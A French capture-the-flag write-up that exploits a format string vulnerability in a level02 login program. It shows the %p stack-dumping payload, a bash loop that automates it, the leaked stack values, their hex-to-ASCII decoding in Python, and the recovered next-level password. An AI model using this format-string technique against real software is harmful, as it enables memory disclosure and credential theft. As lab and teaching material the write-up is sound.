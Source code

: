 ## Level02

En le lançant le programme nous demande d'entrée un nom d'utilisateur et un mot de pass. 

    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: login
    --[ Password: pass
    *****************************************
    login does not have access!


Quoi que l'ont mettent on nous dit que nous n'avons pas les accès.

Dans le programme nous trouvons un printf, il va donc falloir utiliser une *format string attack*.

En décortiquant le code on s’aperçoit que le .pass qui est open est garder dans un buffer lorsqu'on lance le programme.

Grâce au printf plus bas, nous pouvons donc essayer d'afficher la stack, pour ça nous allons utiliser le paramètre de printf %p.

Ce qui nous donne :

    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: %1$p
    --[ Password:
    *****************************************
    0x7fffffffe510 does not have access!
On à donc la première adresse de la stack, bien, maintenant automatisons ça pour le reste.

     for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 ;done

On ajoute un grep pour que ce soit plus lisible. 

     for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 | grep not ;done

    18 - (nil) does not have access!
    19 - (nil) does not have access!
    20 - 0x100000000 does not have access!
    21 - (nil) does not have access!
    22 - 0x756e505234376848 does not have access!
    23 - 0x45414a3561733951 does not have access!
    24 - 0x377a7143574e6758 does not have access!
    25 - 0x354a35686e475873 does not have access!
    26 - 0x48336750664b394d does not have access!
    27 - (nil) does not have access!
    28 - 0x383225202d203832 does not have access!
    29 - 0x7024 does not have access!

On remarque que il y a 5 valeur qui on l'air particulières. On sait que le token fait 40 caractères, donc on en déduit que nos 5 valeurs trouver dans la stack peuvent correspondre à notre token. Puisque 5 * 8 = 40.

On prend donc toutes ces valeurs et on les passes dans un convertisseur hex to ascii.
En utilisant python on obtient : 

    $ python -c 'print "756e505234376848".decode("hex")[::-1]'
    Hh74RPnu
    $ python -c 'print "45414a3561733951".decode("hex")[::-1]'
    Q9sa5JAE
    $ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
    XgNWCqz7
    $ python -c 'print "354a35686e475873".decode("hex")[::-1]'
    sXGnh5J5
    $ python -c 'print "48336750664b394d".decode("hex")[::-1]'
    M9KfPg3H

  Le [::-1] permet de reverse la string, puisqu'elle nous est donnée depuis la stack.

Le password du level03 est donc :

    Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H


 




